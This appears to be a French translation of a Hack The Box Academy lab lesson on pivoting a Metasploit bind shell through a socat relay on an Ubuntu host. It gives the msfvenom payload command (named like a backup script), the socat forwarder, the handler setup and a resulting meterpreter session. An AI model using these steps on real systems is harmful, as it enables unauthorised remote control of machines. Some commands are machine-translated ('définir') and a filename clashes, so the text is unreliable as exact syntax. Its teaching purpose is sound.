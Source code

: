Redirection Socat avec un shell direct
===================================

Semblable au redirecteur de shell inversé de notre socat, nous pouvons également créer un redirecteur de shell de liaison socat. Ceci est différent des shells inversés qui se connectent du serveur Windows au serveur Ubuntu et sont redirigés vers notre hôte d'attaque. Dans le cas des shells de liaison, le serveur Windows démarre un écouteur et se lie à un port particulier. Nous pouvons créer une charge utile de shell de liaison pour Windows et l'exécuter sur l'hôte Windows. En même temps, nous pouvons créer un redirecteur socat sur le serveur Ubuntu, qui écoutera les connexions entrantes d'un gestionnaire de liaison Metasploit et les transmettra à une charge utile de shell de liaison sur une cible Windows. La figure ci-dessous devrait mieux expliquer le pivot.

![](https://academy.hackthebox.com/storage/modules/158/55.png)

Nous pouvons créer un shell de liaison en utilisant msfvenom avec la commande ci-dessous.

#### Création de la charge utile Windows

Création de la charge utile Windows

```
dsgsec@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 499 octets
Taille finale du fichier exe : 7168 octets
Enregistré sous : backupjob.exe

```

Nous pouvons démarrer un écouteur `socat bind shell`, qui écoute sur le port `8080` et transmet les paquets au serveur Windows `8443`.

#### Démarrage de Socat Bind Shell Listener

Démarrage de Socat Bind Shell Listener

```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080, fork TCP4:172.16.5.19:8443

```

Enfin, nous pouvons démarrer un gestionnaire de liens Metasploit. Ce gestionnaire de liaison peut être configuré pour se connecter à l'écouteur de notre socat sur le port 8080 (serveur Ubuntu)

#### Configuration et démarrage du multi/gestionnaire Bind

Configuration et démarrage du multi/gestionnaire Bind

```
msf6 > use exploit/multi/handler

[*] Utilisation de la charge utile configurée generic/shell_reverse_tcp
msf6 exploit(multi/handler) > définir la charge utile windows/x64/meterpreter/bind_tcp
charge utile => windows/x64/meterpreter/bind_tcp
exploit msf6 (multi/gestionnaire)> définir RHOST 10.129.202.64
RHOST => 10.129.202.64
exploit msf6 (multi/gestionnaire)> définir LPORT 8080
LPORT => 8080
exploit msf6 (multi/gestionnaire)> exécuter

[*] Démarrage du gestionnaire TCP de liaison contre 10.129.202.64:8080

```

Nous pouvons voir un gestionnaire de liaison connecté à une demande d'étape pivotée via un écouteur socat lors de l'exécution de la charge utile sur une cible Windows.

#### Établir une session Meterpreter

Établir une session Meterpreter

```
[*] Étape d'envoi (200262 octets) à 10.129.202.64
[*] Meterpreter session 1 ouverte (10.10.14.18:46253 -> 10.129.202.64:8080 ) au 2022-03-07 12:44:44 -0500

meterpreter > getuid
Nom d'utilisateur du serveur : INLANEFREIGHT\victor

```